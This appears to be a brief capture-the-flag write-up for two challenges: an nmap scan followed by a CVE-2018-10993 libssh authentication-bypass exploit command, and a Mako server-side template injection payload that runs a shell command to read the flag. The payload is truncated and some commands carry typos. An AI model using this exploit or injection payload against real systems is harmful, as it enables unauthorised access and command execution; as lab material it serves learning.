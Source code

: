 # CyberSecurity



libssh

Flag format: CTF{sha256}
libssh is a C library that enables you to write a program that uses the SSH protocol. With it, you can remotely execute programs, transfer files, or use a secure and transparent tunnel for your remote programs.
using Nmap to scan the port 
nmap –sV –sC –p port ip -Pn
after scanning we can use CVE-2018-10993 libSSH authentication bypass exploit
cve-2018-10993.py ip -p port -31367 -c "cd ..;cat flag.txt"
ctf

shark

Flag format: CTF{sha256}
curl is a command-line tool for getting or sending data including files using URL syntaxi
using curl we can find out that the website is uisng Werkzeug web application library
we can use Server-Side Template Injection and send MAKO payload using burp suite

name=<%
<%
import os
x=os.popen('cat flag').read()
%>
${x}





